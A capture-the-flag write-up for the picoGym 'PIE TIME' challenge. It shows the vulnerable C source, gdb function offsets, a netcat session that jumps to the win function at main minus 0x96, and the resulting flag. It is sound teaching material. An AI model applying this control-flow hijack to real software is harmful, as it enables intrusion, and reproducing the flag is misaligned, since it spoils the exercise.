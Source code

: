 # CTF Writeup - picoGym

## Challenge: PIE TIME

#### Category: Binary Exploitation 

#### Writeup Author: iamgreedy

### Challenge Description
It is a ret-to-win challenge. The PIE binary prints the address of main function and asks for the another address to jump.
Given files: `vuln.c` and binary `vuln`. 

### Given vuln.c:
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

## Solution
Since it is a PIE (Position Independent Executable) so we have to use relative address of the win function with respect to the main address that we are given.

You can use any decompiler or use gdb to get the addresses 
```bash
(gdb) info functions 
All defined functions:

Non-debugging symbols:
0x0000000000001000  _init
0x00000000000010e0  __cxa_finalize@plt
0x00000000000010f0  putchar@plt
0x0000000000001100  puts@plt
0x0000000000001110  fclose@plt
0x0000000000001120  __stack_chk_fail@plt
0x0000000000001130  printf@plt
0x0000000000001140  fgetc@plt
0x0000000000001150  signal@plt
0x0000000000001160  setvbuf@plt
0x0000000000001170  fopen@plt
0x0000000000001180  __isoc99_scanf@plt
0x0000000000001190  exit@plt
0x00000000000011a0  _start
0x00000000000011d0  deregister_tm_clones
0x0000000000001200  register_tm_clones
0x0000000000001240  __do_global_dtors_aux
0x0000000000001280  frame_dummy
0x0000000000001289  segfault_handler
0x00000000000012a7  win     #0x12a7
0x000000000000133d  main    #0x133d
0x0000000000001410  __libc_csu_init
0x0000000000001480  __libc_csu_fini
0x0000000000001488  _fini
```
Relative address of win w.r.t. main = 0x12a7 - 0x133d = -0x96 (-150)
i.e address of win = address of main - 0x96

```bash
$ nc rescued-float.picoctf.net XXXXX
Address of main: 0x631eea45e33d
Enter the address to jump to, ex => 0x12345: 0x631eea45e2a7 #main - 0x96
Your input: 631eea45e2a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_ecb96bdd}
```

### Extracted Flag

```
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_ecb96bdd}
```





